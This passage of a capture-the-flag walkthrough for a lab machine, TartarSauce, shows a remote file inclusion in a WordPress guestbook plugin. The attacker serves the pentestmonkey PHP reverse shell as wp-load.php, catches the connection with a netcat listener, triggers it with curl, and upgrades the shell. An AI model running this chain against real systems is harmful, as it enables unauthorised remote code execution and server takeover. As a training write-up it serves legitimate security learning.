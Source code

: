 * 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D

\= 1.5.3 =

* 2015-10-01
* When email is disabled, save it anyway when user is logged in.
* Add nb\_NO (thanks BjÃ¸rn Inge VÃ¥rvik).
* Update ru\_RU.
{% endhint %}

## Gaining Access

Let's test it by constructing the target URL as follows as per the exploit instructions:

> [http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/](http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/)

Next, let's copy the pentestmonkey PHP reverse shell and save it as wp-load.php. Change the IP and PORT variables in the file to the attackers IP and in this case, port 443, and save it.

```
└─$ cp /usr/share/webshells/php/php-reverse-shell.php wp-load.php
```

Start a python webserver in the directory containing the wp-load.php file:

```
└─$ sudo python3 -m http.server 80
```

Start a netcat listener to catch the reverse shell connection:

```
└─$ sudo nc -nvlp 443
```

Paste the vulnerable target URL into a browser and hit enter, or use curl as follows:

```
└─$ curl http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/

```

Back in the listener, we get a shell. Let's upgrade the shell, and move on to local enumeration on the target system.

```
└─$ sudo nc -nvlp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:44982.
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 06:22:20 up  2:25,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@TartarSauce:/$
```
